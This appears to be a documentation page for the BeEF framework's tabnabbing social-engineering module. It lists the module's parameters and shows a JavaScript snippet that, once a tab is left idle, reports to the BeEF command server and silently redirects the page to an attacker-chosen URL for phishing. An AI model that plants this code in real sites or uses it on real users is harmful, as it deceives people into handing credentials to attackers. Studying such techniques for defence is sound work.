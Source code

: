 ##Summary
* **Objective**: This module redirects to the specified URL after the tab has been inactive for a specified amount of time.
* **Authors**: bcoles
* **Browsers**: 1ll
* **Parameters** :
  * **URL** : URL for the redirection
  * **Wait** : Time before redirecting (in minutes)

* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/tabnabbing)

##Internal Working 

Internal workig is pretty easy : when the tab loose focus, it starts a timer. When the timer ends the browser is redirected to the given URL :

```javascript
window.onblur = function() {
    begin_countdown();
}

window.onfocus = function() {
    clearTimeout(tabnab_timer);
}

begin_countdown = function() {
    tabnab_timer = setTimeout(function() { beef.net.send('<%= @command_url %>', <%= @command_id %>, 'tabnab=redirected'); window.location = url; }, wait);
}
```

## Screenshots

[[Images/module-tabnabbing1.png|align=center]]

## Feedback

* One improvement may be to replace the redirection by a 100% iframe.
* It should be noticed that the time given is in minute which may be long regarding average of web sessions

## References
* "Tabnabbing: A New Type of Phishing Attack":http://www.azarask.in/blog/post/a-new-type-of-phishing-attack/ by Aza Raskin